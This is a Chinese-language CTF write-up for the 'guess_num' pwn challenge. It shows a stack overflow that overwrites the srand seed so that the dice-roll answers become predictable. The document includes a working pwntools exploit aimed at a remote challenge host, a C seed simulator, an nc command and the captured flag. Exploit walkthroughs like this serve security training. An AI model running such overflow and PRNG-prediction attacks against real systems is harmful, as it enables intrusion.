

# wp
checksec 查看一下。保护得比较全面。




srand相关知识 https://blog.csdn.net/qq_41199502/article/details/80726780

 具体实现：  

1. 通过垃圾字符覆盖var_30到seed：“a” * 0x20
2. 使用p64()把1按照64位的方式进行排列产生随机数
3. 调用srand()生成随机数
4. 利用循环多次输入进行比较，直到相等。

通过ldd查找libc共享库， 这里python需要用到c语言的标准动态库
```sh
kali@kali:/mnt/hgfs/vmware$ ldd guess_num 
        linux-vdso.so.1 (0x00007ffec67fa000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007faeab4e3000)
        /lib64/ld-linux-x86-64.so.2 (0x00007faeab8c1000)
```


方法1

```python
from pwn import *
from ctypes import *

libc = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')

io = remote('124.126.19.106',50127)

payload = flat('a' * 0x20, p64(1))
io.sendlineafter('name', payload)
#get offset is 0x20,edit seed as 1
libc.srand(1)
for i in range(10):
    io.sendline(str(libc.rand() % 6 + 1))

io.interactive()
```

方法2

看seed的定义, 数组, unsigned int seed[2]， 在64位系统中  unsigned int : 4个字节

直接读 seed[0]会读4个字节。

我们使用多个a个进行覆盖。比如60个a。 seed处肯定是被覆盖的。

写个程序模拟一下随机数。linux下执行。

```c
int main() {
    srand(0x61616161);
    for (int i = 0; i < 10; i++) {
        int b = rand() % 6 + 1;
        printf("%d\n", b);
    }
    system("pause");
    return (0);
}
```
结果
```
5
6
4
6
6
2
3
6
2
2

```

nc 124.126.19.106 50127

输入大量的a覆盖seed，按上面的结果输入数字。

flag!cyberpeace{9336470fc366fde1fa64179b506eba53}

